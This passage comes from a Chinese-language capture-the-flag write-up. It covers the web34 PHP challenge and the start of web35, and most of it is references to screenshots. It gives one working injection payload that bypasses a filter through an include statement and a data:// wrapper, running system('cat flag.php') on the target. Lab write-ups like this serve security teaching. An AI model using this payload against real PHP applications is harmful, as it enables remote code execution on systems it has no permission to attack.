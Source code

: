 得到flag

------

#### web34

分析

![image-20231216115323040](image/image-20231216115323040.png)

比上题多过滤了一个：

但对于web32的并没有影响

继续使用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20231216115103207](image/image-20231216115103207.png)

(因为技术问题部分截图损失，故有些类似题目采用相同截图)

得到flag

------

#### web35

分析

![image-20231216115429726](image/image-20231216115429726.png)

